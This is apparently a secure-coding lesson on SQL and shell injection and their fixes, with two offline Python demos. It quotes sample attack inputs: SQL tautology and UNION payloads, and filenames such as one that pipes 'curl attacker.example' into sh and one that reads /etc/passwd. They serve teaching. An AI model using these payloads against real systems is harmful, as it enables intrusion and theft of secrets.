


+++
title = 'Injection and parameterization'
description = 'Injection happens when input is pasted into text that another program parses as code. The fix is to keep the code fixed and pass input through a channel that can only carry data.'
question = 'Why does string-built SQL or shell turn input into code, and what actually stops it?'
weight = 1
difficulty = 2
prerequisites = ['/notes/application-security/foundations/01-the-request-is-a-trust-boundary', '/notes/application-security/foundations/03-the-vulnerability-classes-that-matter']
date = 2026-06-08
lastmod = 2026-10-30
verified = 2026-06-08
+++

## The idea in one minute

A SQL engine, a shell, an LDAP server and a template engine all do the same
thing: they read a string and decide which parts are instructions and which
parts are values. **Injection** is what happens when the application builds
that string by pasting in user input. The interpreter has no way to know where
the developer's text ended and the attacker's began, so a quote, a semicolon
or a `$(` in the input moves the boundary.

The root cause is not "bad characters". It is that **code and data travel in
the same channel**. Every durable fix separates them: a parameterized query
sends the SQL text and the values in different fields of the protocol, and an
argument vector hands a program its arguments without a shell ever parsing
them. Escaping and filtering try to make data safe to paste into code; they
are the fallback for the few places where no separate channel exists, and they
need an allowlist behind them.

The consequence to act on: **any string that will be parsed, built from input,
is a bug until proven otherwise.** Find those places and give the input its
own channel.

## A picture



On the left the parser decides what the input means. On the right the parser
has finished its work before the input arrives, so the input cannot change the
plan.

## How it really works

### Code and data in one string

Take the lookup `SELECT name FROM users WHERE team = '` + `team` + `'`. With
`team = "blue"` the parser sees a string literal. With `team = "x' OR '1'='1"`
the first quote in the input closes the literal, `OR '1'='1'` becomes part of
the `WHERE` clause, and the condition is true for every row. With
`x' UNION SELECT secret, user_id FROM api_keys --`, the query returns rows from
a table the developer never mentioned, and `--` comments out the trailing
quote so the syntax stays valid.

Nothing about this is specific to SQL. The same shape appears wherever a
program builds a sentence in another language:

| Interpreter | Built from input | What the attacker changes | Weakness |
| --- | --- | --- | --- |
| SQL engine | `WHERE id = ` + input | The query's logic, the tables read, sometimes stacked statements | CWE-89 |
| `/bin/sh` | `"convert " + filename` | Which programs run | CWE-78 |
| A program's own option parser | `[tool, filename]` with `filename = "--exec=..."` | Which options are set | CWE-88 |
| LDAP server | `(uid=` + input + `)` | The filter's logic | CWE-90 |
| Template engine | template source built from input | Expressions evaluated on the server | CWE-1336 |
| Document database | a query object built from a JSON body | Operators such as `$ne` or `$where` | CWE-943 |
| A language model | system prompt + retrieved text | The instructions the model follows | see [prompt injection](/notes/ai-security-engineering/how-attacks-work/01-prompt-injection/) |

The last row is the reason this lesson matters beyond databases. Prompt
injection is the same root cause in an interpreter that has no separate data
channel at all, which is why it has no complete fix.

The map groups the same interpreters by where they live; every leaf is a place
to look for a string built from input.

```mermaid {title="Every interpreter that parses a built string is an injection target"}
mindmap
  root((Code and data in one string))
    Data stores
      SQL engine CWE-89
      LDAP filter CWE-90
      Document query operators CWE-943
    Processes
      System shell CWE-78
      Program option parser CWE-88
    Rendering
      Server template engine CWE-1336
    Models
      Language model prompt
```

### Parameterized queries

A **parameterized query** (also called a prepared statement or bound query)
sends the SQL text with placeholders and the values as a separate list.
Python's database API, PEP 249, defines the placeholder styles: `?` for
`sqlite3`, `%s` for psycopg and PyMySQL, `:name` for named parameters.

```python {title="the only change that matters"}
db.execute(f"SELECT name FROM users WHERE team = '{team}'")       # vulnerable
db.execute("SELECT name FROM users WHERE team = ?", (team,))      # parameterized
```

How the separation happens depends on the driver. With **server-side
binding**, the client sends the statement text in one protocol message and the
values in another; PostgreSQL's extended query protocol (`Parse`, then `Bind`)
is the clearest example, and psycopg 3 uses it by default. Other drivers,
including psycopg2 and PyMySQL, **interpolate on the client**: they render each
value as a correctly escaped literal for that specific database and send one
string. Both are safe when used through the placeholder API, because the
driver, not the developer, decides how a value is encoded. What is never safe
is doing the interpolation yourself with an f-string, `%`, `.format()` or `+`
and then passing the result to `execute`.

Follow both branches: the wire format differs, but in each one the driver, not
your code, turns the value into something the database reads.

```mermaid {title="Server-side binding and client interpolation both keep the developer out of encoding"}
sequenceDiagram
  autonumber
  participant App as Application
  participant Drv as Driver
  participant DB as Database
  App->>Drv: execute with placeholder SQL and a values tuple
  alt Server-side binding, psycopg 3
    Drv->>DB: Parse message with the fixed SQL text
    DB-->>Drv: statement planned
    Drv->>DB: Bind message with the value
    Drv->>DB: Execute
  else Client-side interpolation, psycopg2 or PyMySQL
    Drv->>Drv: render value as an escaped literal for this database
    Drv->>DB: one SQL string
  end
  DB-->>App: rows
  Note over App,DB: Unsafe in both drivers if the app formats the string itself before execute
```

> [!IMPORTANT]
> The `%s` in `cursor.execute("... WHERE id = %s", (user_id,))` is a driver
> placeholder, not Python string formatting. Writing
> `cursor.execute("... WHERE id = %s" % user_id)` looks almost identical and is
> injectable. Code review has to look at the comma.

### What parameters cannot carry

A placeholder stands for a **value**. It cannot stand for an identifier (a
table or column name), a keyword (`ASC`, `DESC`), an operator, or a list whose
length varies. These are exactly the places where developers fall back to
string building: sortable columns, filterable fields, dynamic `IN` lists.

- **Identifiers and keywords:** map user input onto a fixed set. The request
  says `sort=joined`; a dictionary maps `joined` to the column `joined_at`; an
  unknown key is an error. The user never supplies SQL text, only a key.
- **Variable-length lists:** generate one placeholder per element
  (`", ".join("?" * len(ids))`) and bind the values. The generated part is
  placeholders, not input.
- **`LIKE` patterns:** a bound value is still interpreted by `LIKE`, so `%` and
  `_` in the input act as wildcards. That is not injection, but it can make a
  search return everything or run slowly. Escape them and add an `ESCAPE`
  clause when the semantics matter.

Start from the question of which part of the query the input fills; each answer
has exactly one safe construction.

```mermaid {title="Pick the construction by what the input fills in the query"}
flowchart TB
  Q@{ shape: diam, label: "Input fills which part?" }
  Q -->|"a value"| V["<b>Bind it</b><br/><small>placeholder plus values tuple</small>"]
  Q -->|"identifier or keyword"| M["<b>Look up the key</b><br/><small>dict of allowed columns</small>"]
  Q -->|"variable-length list"| L["<b>One placeholder per element</b><br/><small>bind every value</small>"]
  Q -->|"LIKE pattern"| E["<b>Bind and escape wildcards</b><br/><small>add an ESCAPE clause</small>"]
  M --> K@{ shape: diam, label: "Known key?" }
  K -->|"yes"| C["<b>Server-chosen SQL text</b>"]
  K -->|"no"| R["<b>Reject the request</b>"]
  class Q,K neutral
  class V,M,L,E,C,R good
```

Quoting identifiers (`"column"` in SQL) is a weaker substitute for the
allowlist, because the quoting rules differ between databases and a quoted
identifier can still name a column the user should not sort or filter by.

### ORMs and their escape hatches

An ORM builds parameterized SQL for you, which is why ORM-based code has far
less injection. Every ORM also offers a way to write raw SQL, and that is where
injection survives:

| Framework | Safe | Injectable if built with string formatting |
| --- | --- | --- |
| Django | `User.objects.filter(team=team)`, `raw(sql, [team])` | `raw(f"... '{team}'")`, `extra(where=[...])`, `RawSQL(f"...")` |
| SQLAlchemy | `select(User).where(User.team == team)`, `text("... :t").bindparams(t=team)` | `text(f"... '{team}'")` |
| Ruby on Rails | `where(team: team)`, `where("team = ?", team)` | `where("team = '#{team}'")`, `order(params[:sort])` |

The raw APIs are parameterized when you pass values separately. The pattern to
search for in review is a raw-SQL function whose first argument is an f-string
or a concatenation. Static analysis tools (Semgrep, CodeQL) find most of these
mechanically, which is covered in
[security code review](/notes/application-security/building-it-secure/04-security-code-review/).

### Second-order injection

Parameterizing the `INSERT` is not enough if the stored value is later read
back and pasted into another query. A username such as `admin'--` is stored
safely, then a nightly report builds `... WHERE owner = '` + username + `'`
and runs it. The input was untrusted when it arrived and is still untrusted
when it comes out of your own database. **Trust is a property of where a value
came from, not of where it is now.**

Watch the stored value: it is handled correctly on the way in and decides the
outcome only on the second query, days later.

```mermaid {title="Second-order injection fires on the query that reads the stored value"}
sequenceDiagram
  autonumber
  actor U as User
  participant A as Signup handler
  participant DB as Database
  participant R as Nightly report job
  U->>A: username containing a quote
  A->>DB: parameterized INSERT
  Note over DB: Stored as plain data, still user-controlled
  R->>DB: read usernames
  DB-->>R: the stored username
  alt Report builds the query by concatenation
    R->>DB: WHERE owner = quote + username + quote
    Note over R,DB: The stored quote now ends the literal
  else Report binds the value
    R->>DB: WHERE owner = ? with username bound
    Note over R,DB: Same bytes, still only a value
  end
```

### Command injection

`subprocess.run(cmd, shell=True)` and `os.system(cmd)` hand a string to
`/bin/sh -c`. The shell then does everything a shell does: splits on spaces,
honors quotes, runs `;`-separated commands, expands `$(...)` and backticks,
follows redirects. A filename of `cat.jpg; curl attacker.example | sh` is two
extra commands.

The fix has the same shape as parameterization. **Pass an argument vector and
no shell**: `subprocess.run(["thumbnailer", "--", filename, "thumb.png"])`.
The operating system's `execve` receives the list as separate strings and no
shell parses them, so `;` and `$(` are just bytes in a filename. This is
`subprocess`'s default (`shell=False`); the Python documentation's security
considerations section says to avoid `shell=True` with untrusted input.

Compare who parses the filename in each path: the shell on top, nobody but the
target program's own option parser below.



An argument vector does not remove every problem:

- **Argument injection.** The program itself still parses its arguments. A
  filename that starts with `-` can be read as an option, and some options are
  dangerous on their own; `git`'s `--upload-pack` option, which names a program
  to run, is a well-known example. Put `--` before untrusted arguments (most
  POSIX tools treat it as "end of options"), or prefix paths with `./`, and
  check the tool's documentation, because not every program honors `--`.
- **Windows.** There is no `execve`; a process receives one command-line
  string that the child program splits itself, and batch files are run through
  `cmd.exe`, which has its own metacharacters. The Python documentation warns
  about this case specifically. Avoid invoking `.bat` and `.cmd` files with
  untrusted arguments.
- **The program is the interpreter.** Passing user input as the script to
  `python -c`, `bash -c`, `sed -e` or `find -exec` reintroduces injection
  inside a perfectly formed argument vector.

When you genuinely need a shell (a pipeline you cannot rewrite), quote every
untrusted piece with `shlex.quote`, which wraps it in single quotes and handles
embedded quotes for POSIX shells. It is correct for `sh`, not for `cmd.exe` or
PowerShell. Better still, do the work in-process: most reasons to shell out
(copying files, compressing, resizing images, calling an HTTP API) have a
library that takes arguments as values.

### Allowlists, not blocklists

Input validation is not the fix for injection, but it is a useful second layer
when it is an **allowlist**: a team name matches `^[a-z]{1,32}$`, an ID is an
integer, a sort key is one of three words. A blocklist ("reject input
containing `'` or `;`") fails because the attacker gets to search for the
encoding, the alternate syntax or the database dialect you did not think of,
and because legitimate data (an Irish surname, a product description) contains
the characters you banned. Validate the shape of what you expect; keep the
separate channel as the control.

## Code

Two programs. The first runs the same lookup three ways against an in-memory
SQLite database: string formatting, a parameterized query, and an allowlisted
sort column.

```python {title="sqli.py"}
"""sqli.py: the same lookup written three ways against an in-memory SQLite database.

String formatting lets input become SQL. A parameterized query keeps it data.
Identifiers (column names, sort order) cannot be parameters, so they need an
allowlist. Standard library only; runs offline.
"""

from __future__ import annotations

import sqlite3

SORTABLE = {"name": "name", "joined": "joined_at"}  # public name -> real column


def setup() -> sqlite3.Connection:
    db = sqlite3.connect(":memory:")
    db.executescript(
        """
        CREATE TABLE users (id INTEGER PRIMARY KEY, name TEXT, team TEXT, joined_at TEXT);
        CREATE TABLE api_keys (user_id INTEGER, secret TEXT);
        INSERT INTO users VALUES (1, 'alice', 'red', '2024-01-10'),
                                 (2, 'bob', 'blue', '2023-06-02'),
                                 (3, 'carol', 'blue', '2025-03-15');
        INSERT INTO api_keys VALUES (1, 'sk_alice_7f3a'), (2, 'sk_bob_19c4');
        """
    )
    return db


def find_formatted(db: sqlite3.Connection, team: str) -> list[tuple]:
    """Vulnerable: the input is pasted into the SQL text before parsing."""
    sql = f"SELECT name, team FROM users WHERE team = '{team}'"
    return db.execute(sql).fetchall()


def find_parameterized(db: sqlite3.Connection, team: str) -> list[tuple]:
    """Safe: the SQL text is fixed; the value travels separately as a bound parameter."""
    return db.execute("SELECT name, team FROM users WHERE team = ?", (team,)).fetchall()


def list_sorted(db: sqlite3.Connection, team: str, sort: str) -> list[tuple]:
    """Identifiers cannot be bound, so map the request onto a fixed set of columns."""
    column = SORTABLE.get(sort)
    if column is None:
        raise ValueError(f"unknown sort key {sort!r}")
    sql = f"SELECT name, team FROM users WHERE team = ? ORDER BY {column}"
    return db.execute(sql, (team,)).fetchall()


def show(label: str, fn, *args) -> None:
    try:
        rows = fn(*args)
    except (sqlite3.Error, ValueError) as e:
        print(f"  {label:<14} error: {type(e).__name__}: {e}")
    else:
        print(f"  {label:<14} {rows}")


if __name__ == "__main__":
    db = setup()
    inputs = {
        "normal": "blue",
        "tautology": "x' OR '1'='1",
        "union": "x' UNION SELECT secret, user_id FROM api_keys --",
        "syntax probe": "blue'",
    }
    for kind, value in inputs.items():
        print(f"{kind}: team = {value!r}")
        show("formatted", find_formatted, db, value)
        show("parameterized", find_parameterized, db, value)

    print("sorting with an allowlist")
    show("sort=joined", list_sorted, db, "blue", "joined")
    show("sort=injected", list_sorted, db, "blue", "(SELECT secret FROM api_keys)")
```

Run it with `python3 sqli.py`:

```text
normal: team = 'blue'
  formatted      [('bob', 'blue'), ('carol', 'blue')]
  parameterized  [('bob', 'blue'), ('carol', 'blue')]
tautology: team = "x' OR '1'='1"
  formatted      [('alice', 'red'), ('bob', 'blue'), ('carol', 'blue')]
  parameterized  []
union: team = "x' UNION SELECT secret, user_id FROM api_keys --"
  formatted      [('sk_alice_7f3a', 1), ('sk_bob_19c4', 2)]
  parameterized  []
syntax probe: team = "blue'"
  formatted      error: OperationalError: unrecognized token: "'blue''"
  parameterized  []
sorting with an allowlist
  sort=joined    [('bob', 'blue'), ('carol', 'blue')]
  sort=injected  error: ValueError: unknown sort key '(SELECT secret FROM api_keys)'
```

The syntax probe is how injection is usually found: a single quote that breaks
the formatted query and changes nothing in the parameterized one. The
parameterized query searched for a team literally named
`x' UNION SELECT ...` and correctly found none.

The second program shows what `/bin/sh` would do with a command string built
from an upload's filename. It executes nothing: `shlex` tokenizes with the
shell's quoting rules and control operators, and the program prints the
commands a shell would have run.

```python {title="shell_sim.py"}
"""shell_sim.py: what a shell would do with a command string, without running anything.

A command built by string formatting is parsed by /bin/sh, so shell syntax in
the input becomes structure. An argument vector is never parsed. Nothing here
executes: shlex only tokenizes, and the "shell" just reports what it would run.
Standard library only; runs offline.
"""

from __future__ import annotations

import shlex

OPERATORS = {";", "&&", "||", "|", "&"}


def shell_would_run(command: str) -> list[list[str]]:
    """Split a command line the way a POSIX shell separates commands.

    shlex models quoting and the control operators; it does not expand $(...)
    or backticks, so those are flagged rather than evaluated.
    """
    lexer = shlex.shlex(command, posix=True, punctuation_chars=";&|")
    lexer.whitespace_split = True
    commands: list[list[str]] = [[]]
    for token in lexer:
        if token in OPERATORS:
            commands.append([])
        else:
            commands[-1].append(token)
    return [c for c in commands if c]


def describe(argv: list[str]) -> str:
    flags = []
    if any("$(" in a or "`" in a for a in argv):
        flags.append("command substitution")
    if any(a.startswith("-") for a in argv[1:]):
        flags.append("option-like argument")
    note = f"   <- {', '.join(flags)}" if flags else ""
    return f"{argv}{note}"


def as_shell_string(filename: str) -> str:
    """Vulnerable: what subprocess.run(cmd, shell=True) would hand to /bin/sh."""
    return f"thumbnailer {filename} thumb.png"


def as_argv(filename: str) -> list[str]:
    """Safer: an argument vector, and '--' so a leading dash is not an option."""
    return ["thumbnailer", "--", filename, "thumb.png"]


if __name__ == "__main__":
    uploads = [
        "cat.jpg",
        "cat.jpg; curl attacker.example | sh",
        "x.jpg && cat /etc/passwd",
        "$(id).jpg",
        "--output=/var/www/shell.php",
    ]
    for name in uploads:
        print(f"filename = {name!r}")
        for argv in shell_would_run(as_shell_string(name)):
            print(f"  sh -c runs : {describe(argv)}")
        print(f"  argv list  : {as_argv(name)}")
    print()
    print("quoting with shlex.quote, if a shell is unavoidable:")
    print("  " + "thumbnailer " + shlex.quote(uploads[1]) + " thumb.png")
    print(f"  sh -c runs : {shell_would_run('thumbnailer ' + shlex.quote(uploads[1]) + ' thumb.png')}")
```

Run it with `python3 shell_sim.py`:

```text
filename = 'cat.jpg'
  sh -c runs : ['thumbnailer', 'cat.jpg', 'thumb.png']
  argv list  : ['thumbnailer', '--', 'cat.jpg', 'thumb.png']
filename = 'cat.jpg; curl attacker.example | sh'
  sh -c runs : ['thumbnailer', 'cat.jpg']
  sh -c runs : ['curl', 'attacker.example']
  sh -c runs : ['sh', 'thumb.png']
  argv list  : ['thumbnailer', '--', 'cat.jpg; curl attacker.example | sh', 'thumb.png']
filename = 'x.jpg && cat /etc/passwd'
  sh -c runs : ['thumbnailer', 'x.jpg']
  sh -c runs : ['cat', '/etc/passwd', 'thumb.png']
  argv list  : ['thumbnailer', '--', 'x.jpg && cat /etc/passwd', 'thumb.png']
filename = '$(id).jpg'
  sh -c runs : ['thumbnailer', '$(id).jpg', 'thumb.png']   <- command substitution
  argv list  : ['thumbnailer', '--', '$(id).jpg', 'thumb.png']
filename = '--output=/var/www/shell.php'
  sh -c runs : ['thumbnailer', '--output=/var/www/shell.php', 'thumb.png']   <- option-like argument
  argv list  : ['thumbnailer', '--', '--output=/var/www/shell.php', 'thumb.png']

quoting with shlex.quote, if a shell is unavoidable:
  thumbnailer 'cat.jpg; curl attacker.example | sh' thumb.png
  sh -c runs : [['thumbnailer', 'cat.jpg; curl attacker.example | sh', 'thumb.png']]
```

In the string version, one filename became three commands. In the argument
vector, every filename is exactly one argument, and `--` stops the last one
from being read as an option. `shlex.quote` also produces a single argument,
but only because it was applied correctly to every untrusted piece; one
forgotten call and the shell is back in charge.

## Where it breaks

- **The simulation is partial.** `shlex` does not perform expansion, so
  `$(id).jpg` is flagged, not evaluated; a real shell would run `id`. Real
  shells also expand globs, variables and redirects. The point of the program
  is the token boundaries, not a faithful shell.
- **Parameters protect values, not semantics.** A bound value can still be the
  wrong value. Parameterization stops `x' OR '1'='1` from becoming logic; it
  does nothing about a user passing someone else's account ID. That is
  [object-level authorization](/notes/application-security/authorization/01-broken-object-level-authorization/).
- **Dynamic SQL inside the database.** A stored procedure that builds a
  string and runs it with `EXECUTE` (PostgreSQL) or `sp_executesql` without
  parameters (SQL Server) is injectable even if the application called it with
  bound parameters. The separation has to hold at every layer that parses.
- **Drivers that emulate.** Client-side interpolation depends on the driver
  knowing the connection's character set and quoting rules. Historical bugs in
  multi-byte encodings have broken escaping-based defenses; keep the
  connection encoding explicit (UTF-8) and the driver current.
- **Least privilege still matters.** If injection does happen, the damage is
  bounded by what the database account can do. An application account that
  cannot read `api_keys`, cannot run `COPY ... TO PROGRAM`, and cannot write
  files turns a full compromise into a data leak of one table.

  Read the stack top to bottom: each layer parses or authorizes on its own, so
  each one needs its own control.

  ```mermaid {title="The separation has to hold at every layer that parses"}
  block-beta
    columns 1
    a["Application: raw SQL calls take bound values, never f-strings"]
    b["Driver: current version, explicit UTF-8 connection encoding"]
    c["Stored procedure: dynamic SQL runs with parameters"]
    d["Database account: least privilege, no file or program access"]
  ```
- **Filters on the way in are not encoding on the way out.** An input filter
  that strips quotes for SQL does nothing for HTML, shell or LDAP. Each
  interpreter needs its own separation at the point of use, which is the
  subject of the [next lesson](/notes/application-security/untrusted-input/02-xss-and-output-encoding/).

## Remember this

- Injection is code and data sharing one channel; the fix is a second channel.
- Use bound parameters for values and an allowlist mapping for identifiers.
- In ORMs, the raw-SQL functions are where injection survives; grep for
  f-strings passed to them.
- Pass argument vectors with no shell, and put `--` before untrusted
  arguments.
- Data from your own database is still untrusted if it came from a user.
- Validate with allowlists as a second layer, never as the only one.

## Try it

1. Run `sqli.py`, then add a `find_like` function that searches names with
   `LIKE ?`. Pass `%` as the search term. What comes back, and how do you make
   `%` literal?
2. Add an `ids` filter that accepts a list of user IDs and builds an `IN (...)`
   clause with one placeholder per element. Feed it a list containing a string
   with a quote in it.
3. In `shell_sim.py`, add a filename containing a newline. How does the shell
   treat it, and does `shlex` with `punctuation_chars` model that?
4. Search a codebase you work on for `shell=True`, `os.system`, `os.popen`,
   `.raw(`, `.extra(` and `text(f"`. For each hit, write down whether any part
   of the string can come from a request.

## Check yourself

1. Why is "escape single quotes" a weaker defense than a parameterized query?

   
   Escaping keeps code and data in one string and relies on the escaping
   function matching the parser exactly: the database dialect, the connection's
   character set, the context (a string literal versus a number versus an
   identifier). Numeric contexts have no quotes to escape at all. A
   parameterized query removes the question, because the value never passes
   through the SQL parser as text.
   

2. A developer needs the user to choose the sort column. Why can they not use a
   placeholder, and what should they do?

   
   Placeholders stand for values. A column name is part of the query's
   structure, so the parser must see it when planning. Map a user-supplied key
   onto a fixed dictionary of allowed columns and reject anything else; the
   user selects from a list, never supplies SQL text.
   

3. What is second-order SQL injection?

   
   Input is stored safely (for example with a parameterized `INSERT`), then
   later read back from the database and concatenated into a different query.
   The injection fires on the second query. It shows that trust depends on a
   value's origin, not on where it is stored now.
   

4. `subprocess.run(["git", "clone", repo_url, dest])` has no shell. How can it
   still be exploited?

   
   Through argument injection: if `repo_url` starts with `-`, git parses it as
   an option, and some git options run programs or change where files go. Put
   `--` before the untrusted arguments, validate that the URL has an allowed
   scheme, or both.
   

5. Why does an ORM not make an application immune to injection?

   
   The ORM's query builder parameterizes, but every ORM has raw-SQL entry
   points (`raw`, `extra`, `text`, string `where` and `order` clauses). If a
   developer builds the string passed to one of these with formatting, the ORM
   sends it to the database as code.
   

## Sources

- OWASP, [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html) and [Query Parameterization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html).
- OWASP, [OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html).
- MITRE, [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html), [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html), [CWE-88: Argument Injection](https://cwe.mitre.org/data/definitions/88.html).
- M.-A. Lemburg, [PEP 249: Python Database API Specification v2.0](https://peps.python.org/pep-0249/), 1999 (paramstyle).
- Python documentation, [sqlite3: How to use placeholders to bind values](https://docs.python.org/3/library/sqlite3.html#sqlite3-placeholders), [subprocess: Security considerations](https://docs.python.org/3/library/subprocess.html#security-considerations), and [shlex.quote](https://docs.python.org/3/library/shlex.html#shlex.quote).
- PostgreSQL documentation, [Message flow: Extended query](https://www.postgresql.org/docs/current/protocol-flow.html#PROTOCOL-FLOW-EXT-QUERY).
- Django documentation, [Performing raw SQL queries](https://docs.djangoproject.com/en/stable/topics/db/sql/).
- SQLAlchemy documentation, [text()](https://docs.sqlalchemy.org/en/20/core/sqlelement.html#sqlalchemy.sql.expression.text).
